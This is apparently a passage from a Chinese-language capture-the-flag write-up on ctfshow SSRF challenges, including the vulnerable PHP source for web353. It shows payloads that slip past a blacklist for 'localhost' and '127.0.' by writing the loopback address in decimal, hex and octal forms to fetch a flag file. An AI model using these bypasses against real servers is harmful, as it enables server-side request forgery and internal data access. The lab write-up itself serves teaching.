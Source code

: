 > ```

开头必须是**http**或**https**，且不能包含**localhost和127.0.0**

盲猜flag在`http://127.0.0.1/flag.php`

ip地址可以用[ip进制转换](https://tool.520101.com/wangluo/jinzhizhuanhuan/)变一下样子，完完全全会自动解析

![image-20220913195802017](D:\Typora\note\CTF\web\ctfshow_vip\SSRF.assets\image-20220913195802017.png)

所以

```PHP
POST
url=http://2130706433/flag.php
```

而且我寻思正则匹配也没匹配东西啊。。。直接**localhost**也能过

但是下面这种方法就有点不解了

```php
url=http://0/flag.php
url=http://0.0.0.0/flag.php
#下面两种就是进制绕过，上面本地测试不行，但是题目确实可以打通。。
url=http://0x7f.0.0.1/flag.php
url=http://0177.0.0.1/flag.php
```

#### web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

与上题一样
